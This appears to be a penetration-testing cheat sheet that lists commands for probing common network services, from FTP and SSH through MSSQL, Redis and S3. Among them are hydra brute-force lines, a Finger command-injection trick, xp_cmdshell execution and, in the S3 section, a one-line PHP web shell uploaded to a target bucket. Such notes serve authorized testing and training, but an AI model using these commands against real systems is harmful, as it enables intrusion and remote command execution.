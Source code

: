 # Services

## FTP (21)
- check anonymous login
```
ftp <rhost>

> put <local-file> # upload file
> get <server-file> # download file

hydra -L users.txt -P passwords.txt <rhost> ftp
```

## SSH (22)
```
ssh <user>@<rhost>
ssh -i id_rsa <user>@<rhost>
ssh -L <lport>:127.0.0.1:<rport> <user>@<rhost>

ssh-keygen -t rsa -b 4096

hydra -L users.txt -P passwords.txt <rhost> ssh
```

## Telnet (23)
```
telnet <rhost>

hydra -L users.txt -P passwords.txt <rhost> telnet
```

## SMTP (25)
- user enumeration: ``auxiliary/scanner/smtp/smtp_enum``
```
telnet <rhost>

HELO hello
MAIL FROM:<src-mail>
RCPT TO:<dest-mail>
DATA
email body

.
```

## DNS (53)
```
dig axfr @<DNS-IP>
dig axfr @<DNS-IP> <DOMAIN>
dig ANY @<DNS-IP> <DOMAIN>
dig -x <ip> @<DNS-IP>
```

## Finger (79)
- user enumeration: ``auxiliary/scanner/finger/finger_users``
```
finger @<rhost> # list users
finger <user>@<rhost> # get user info
finger "|/bin/id@<rhost>" # command execution
```

## HTTP (80)
- [Web-Applications](Web_Applications.md)

## SMB (139/445)
```
smbclient -L //<rhost>/
smbclient //<rhost>/<share>
> put <local-file>
> get <server-file>
```

## SNMP (161)
```
snmpwalk -c public -v1 <rhost>
```

## MSSQL (1433)
- shell with ``enable_xp_cmdshell``
- run commands: ``xp_cmdshell <command>``
```
mssqlclient.py <user>@<rhost>
mssqlclient.py <user>@<rhost> -windows-auth
```

## NFS (2049)
```
showmount -e <rhost>
mount -t nfs -o ver=2 <rhost>:/backup /mnt
```

## MySQL (3306)
```
mysql -h <rhost> -u <user> -p
> show databases;
> use <db>;
> show tables;
> select * from <table>;
```

## RDP (3389)
```
xfreerdp /u:<username> /p:<password> /v:<rhost> +clipboard
xfreerdp /d:<domain> /u:<username> /p:<password> /v:<rhost>
```

## PostgreSQL (5432/5433)
```
psql -h <rhost> -p <port> -U <user> -W <password> <database>
> \list
> \c <database>
> \d
```

## WinRM (5985)
```
evil-winrm -i <rhost> -u <user> -p <password>
evil-winrm -i <rhost> -u <user> -H <hash-pass> 
```

## Redis (6379)
```
redis-cli -h <rhost>
> info keyspace
> select <database-id>
> keys *
> get <key>
```

## MongoDB (27017)
```
mongo "mongodb://<user>:<password>@<rhost>:27017"
> show dbs
> use <db>
> show collections
> db.<collection>.find()
```

## S3 Bucket
```
aws --endpoint=http://s3.<target> s3 ls s3://<target>
echo '<?php system($_REQUEST["cmd"]); ?>' > shell.php
aws --endpoint=http://s3.<target> s3 cp shell.php s3://<target>/shell.php
```
